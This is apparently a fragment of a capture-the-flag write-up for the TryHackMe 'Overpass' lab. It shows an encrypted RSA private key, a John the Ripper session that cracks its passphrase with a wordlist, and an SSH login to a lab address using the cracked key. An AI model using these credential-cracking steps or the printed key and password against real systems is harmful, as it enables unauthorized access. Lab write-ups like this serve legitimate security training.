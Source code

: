 `James`

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----

```

```
kali@kali:~/CTFs/tryhackme/Overpass$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
1g 0:00:00:12 97.36% (ETA: 17:26:53) 0.08312g/s 1162Kp/s 1162Kc/s 1162KC/s 05981839..059815574
Session aborted
```

`james13`

```
kali@kali:~/CTFs/tryhackme/Overpass$ chmod 600 id_rsa
kali@kali:~/CTFs/tryhackme/Overpass$ ssh -i id_rsa james@10.10.134.43
```

